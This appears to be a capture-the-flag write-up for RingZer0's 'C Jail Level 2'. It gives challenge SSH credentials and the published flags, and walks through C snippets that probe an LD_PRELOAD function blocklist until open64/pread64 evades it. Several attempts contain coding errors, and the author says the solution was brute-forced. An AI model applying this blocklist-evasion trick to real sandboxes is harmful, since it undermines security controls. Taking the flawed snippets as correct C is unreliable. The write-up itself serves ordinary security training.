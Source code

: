 # Level 2

![](https://i.imgur.com/g8JCYSl.png)

```shell
ssh level2@challenges.ringzer0team.com -p 10229 
password: FLAG-ql3mI2Z8fGq56kK5QdwK8oMxgWwvji8R

RingZer0 Team Online CTF

C Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge instruction:
-----------------------------

Type DONE to compile and execute your binary.


Your payload will be compiled that way:
gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin

Your payload will be executed that way:
LD_PRELOAD=./override.so ./bin

You only control the content of a function.

Here's the default includes
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

You CANNOT use the "asm" keyword

-----------------------------
Your C code:
```

Like `Level 1`:
* `-O3` means optimize. 
* `-Wall` mean print all warning. 
* `–fstack-protector-all` add and check canary into every function. 
* `-fPIE` random the virtual memory which it reflect to.

Let's try what function is overrided.

```
Your C code:
    char buffer[1024];
    FILE *fp;
    fp = fopen("flag.txt", O_RDONLY);
    fread(buffer, 1024, 0, fp);
    printf("flag: %s\n", buffer);
    fclose(fp);
DONE
*** Warning: "fopen" function is disabled
```

```
Your C code:
    char buffer[1024];
    FILE *fp;
    fp = fopen64("flag.txt", "r");
    fread(buffer, 1024, 0, fp);
    printf("flag: %s\n", buffer);
    fclose(fp);
DONE
*** warning: implicit declaration of function
*** Warning: "malloc" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = fdopen("flag.txt", O_RDONLY);
    pread(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
DONE
*** Warning: "fdopen" function is disabled
*** Warning: "pread" function is disabled
```

```
Your C code:
    char buffer[1024];
    FILE *fp;
    fp = popen("flag.txt", 'r');
    while (fgets(buffer, 1024, fp) != NULL)
        printf("flag: %s", buffer);
    pclose(fp);    
DONE
*** Warning: "malloc" function is disabled
/home/level2/prompt.sh: line 81:  5986 Segmentation fault      LD_PRELOAD=/home/level2/override.so /tmp/$filename/bin
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = creat("flag.txt", O_RDONLY);
    pread64(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
*** Warning: "creat" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = creat64("flag.txt", O_RDONLY);
    pread64(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
*** warning: implicit declaration of function ‘creat64’ 
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = open("flag.txt", O_RDONLY);
    read(fd, buffer, 1024);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
*** Warning: "open" function is disabled
*** Warning: "read" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = open64("flag.txt", O_RDONLY);
    pread64(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
flag: FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd
```

I just brutal force it, I still not get the solution that make sense.

`open()` and `open64()`use the open syscall internally. The main difference is that `open64()` is equivalent to `open()` with `O_LARGEFILE` in order to support large files in 32 bit applications.

```
FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd
```

